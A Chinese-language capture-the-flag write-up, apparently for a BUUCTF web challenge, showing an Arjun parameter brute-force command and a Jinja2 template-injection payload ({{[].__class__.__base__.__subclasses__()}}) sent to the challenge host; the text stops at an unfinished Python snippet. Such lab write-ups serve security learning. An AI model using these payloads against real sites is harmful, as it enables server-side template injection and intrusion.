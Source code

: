 >   首先查看题目，然后把题目翻遍了也没发现啥有用的信息，然后Google一波发现需要进行url爆破
>
>   然后就可以通过**Arjun**工具，**它一款http参数扫描器，主要就是爆破url参数的**

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfimg/web/three202303201444478.png)

**使用如下命令慢慢跑**

```nginx
python3 arjun -u http://0a3a91c2-cb84-4fa2-8558-0e75575209f1.node4.buuoj.cn:81/ -c 100 -d 5
```

>   最终的参数名称为：**name**

>   题目也很明显的告诉是flash漏洞，然后肯定是模板注入漏洞，开头也说了是jinji2的模板漏洞
>
>   然后就根据上面的知识进行注入就可以了，很容易就拿到flag

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfimg/web/three202303201448752.png)



>    **首先拿到网站的模块列表**

```nginx
http://0a3a91c2-cb84-4fa2-8558-0e75575209f1.node4.buuoj.cn:81/?name={{[].__class__.__base__.__subclasses__()}}
```

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfimg/web/three202303201453179.png)

****

>   **然后把这个列表复制下来直接筛选一下可以利用模块的位置**

```python
flashStr = '''
```